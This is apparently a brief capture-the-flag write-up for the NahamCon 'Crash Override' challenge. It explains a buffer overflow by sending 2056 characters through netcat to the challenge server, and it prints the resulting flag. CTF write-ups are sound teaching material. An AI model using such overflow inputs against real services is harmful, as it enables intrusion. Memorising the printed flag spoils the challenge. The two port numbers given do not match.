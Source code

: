 ## Crash Override:

_Remember, hacking is more than just a crime. It's a survival trait._

------

Connect with:

`nc challenge.nahamcon.com 30443`

Attachment: [Crash Override](files/crash_override.c)

looking at c code we know the buffer size=2048 so after finding padding=8 we can give any input > 2056 and it will give flag
```
python -c "print('a'* 2056)" | nc challenge.nahamcon.com 32216
```

```
flag{de8b6655b538a0bf567b79a14f2669f6}  
```
